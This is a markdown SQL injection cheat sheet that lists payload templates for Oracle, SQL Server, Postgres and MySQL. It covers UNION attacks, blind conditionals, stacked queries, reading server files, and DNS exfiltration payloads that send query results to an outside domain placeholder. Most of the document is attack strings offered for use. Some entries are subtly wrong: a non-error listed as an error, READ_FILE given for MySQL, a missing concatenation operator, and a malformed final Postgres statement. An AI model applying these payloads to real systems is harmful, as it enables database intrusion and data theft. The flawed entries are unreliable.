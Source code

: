 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDB - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDB - `SELECT table_name FROM information_schema.tables`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDB - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Joining Rows
**Useful if reflection only takes first row**
- Oracle - `listagg(<COL>, "\n")`
- Microsoft / Postgres - `string_agg(<COL>, "\n")`
- MySQL / MariaDB - `group_concat(<COL1>, ":", <COL2>, "\n")`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDB - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDB - `<QUERY1>;<QUERY2>`

## Reading Files
- Postgres (Only in data directory) - `SHOW data_directory` -> `PG_READ_FILE('<REL_PATH>')`
- MySql / MariaDB - `READ_FILE('<ABS_PATH>')`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(<QUERY>)||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDB (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`